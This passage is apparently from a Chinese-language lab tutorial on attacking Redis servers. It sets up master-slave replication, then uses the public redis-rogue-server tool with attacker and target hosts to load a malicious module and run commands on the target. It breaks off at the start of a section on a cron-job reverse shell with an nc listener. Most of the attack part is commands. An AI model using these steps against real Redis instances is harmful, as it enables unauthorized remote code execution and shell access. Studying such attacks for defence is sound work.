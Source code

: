 ```
slaveof 192.168.70.11 6379
```

设置完毕之后从机执行 

  ```
  info replication
  ```

![image-20240731224244449](https://image.201068.xyz/assets/Redis/image-20240731224244449.png)

> Down：物理不联通，版本不同，非root运行，bind 0.0.0.0没有，保护模式开启，防火墙没关
>

#### 主机执行

```
info replication
```

![image-20240731224324160](https://image.201068.xyz/assets/Redis/image-20240731224324160.png)

### **利用主从复制工具攻击**redis-rogue-server

#### 攻击工具配置

下载攻击工具脚本地址：https://github.com/n0b0dyCN/redis-rogue-server

放入到kali中，解压缩 后生成一个文件夹

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd /root/tools/redis/redis-rogue-server/RedisModulesSDK/exp/
make

yum -y intall python3
cd /root/tools/redis/redis-rogue-server
python3 redis-rogue-server.py --rhost 192.168.70.14 --lhost 192.168.70.11 --exp RedisModulesSDK/exp/exp.so
```

#### 执行命令成功

```
whoami
hostname -I
```

![image-20240801144750006](https://image.201068.xyz/assets/18.Redis/image-20240801144750006.png)



## **未授权访问漏洞利用姿势** 5：利用持久化写计划任务来反弹一个shell权限

### 1、首先在攻击机设立一个 nc 反弹接收端。
